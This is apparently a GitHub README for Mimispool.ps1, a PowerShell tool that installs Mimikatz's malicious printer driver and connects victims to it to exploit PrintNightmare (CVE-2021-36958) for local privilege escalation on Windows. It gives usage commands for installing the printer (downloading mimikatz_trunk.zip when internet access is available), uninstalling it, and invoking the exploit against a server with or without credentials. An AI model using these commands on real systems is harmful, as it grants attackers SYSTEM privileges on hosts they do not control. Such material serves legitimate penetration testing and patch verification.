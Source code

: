 # Mimispool.ps1

Just a very small script to install, uninstall or connect to gentilwiki's Mimispool printer. Used to exploit the PrintNightmare vulnerability (CVE-2021-36958) for local privilege escalation. Tested on a fully up-to-date Windows 10 Enterprise Evaluation VM.

Requires admin privileges on the host you want to install the printer on.

## Usage

### Import the Module

```powershell
. .\Mimispool.ps1
```

### Install Printer

```powershell
# With internet access
Install-KiwiPrinter

# Without internet access by specifying path to local mimikatz_trunk.zip file
Install-KiwiPrinter -Archive ".\mimikatz_trunk.zip"
```

### Uninstall Printer

```powershell
Uninstall-KiwiPrinter
```

### Connect to Printer (Exploit)

```powershell
# With anonymous access
Invoke-KiwiPrinter -Server "192.168.47.129"

# With credentials
Invoke-KiwiPrinter -Server "192.168.47.129" -Username "user" -Password "pass"
```

![Proof of Concept](img/poc.png)

